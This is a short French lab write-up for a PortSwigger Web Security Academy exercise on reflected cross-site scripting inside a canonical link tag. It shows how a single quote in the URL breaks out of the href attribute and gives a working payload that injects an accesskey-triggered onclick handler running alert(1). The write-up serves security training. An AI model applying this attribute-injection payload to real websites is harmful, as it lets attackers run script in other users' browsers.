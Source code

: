 # Lab

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

## Payload

En inspectant le code source du lab, on remarque cette balise dans le header : `<link rel="canonical" href='https://0a180012049daf4c8085093b00ca00cf.web-security-academy.net/'>`

En modifiant l'url en ajoutant par exemple `?'toto` on remarque que le lien est bien modifié.

`<link rel="canonical" href='https://0a180012049daf4c8085093b00ca00cf.web-security-academy.net/?'toto'>`

De ce fait une injection est possible. On peut donc injecter des tags html dans le lien canonical.

```html
https://0a180012049daf4c8085093b00ca00cf.web-security-academy.net/?%27accesskey=%27X%27onclick=%27alert(1)%27%20x=%27
```

Le payload est : `'accesskey='X'onclick='alert(1)' x='`
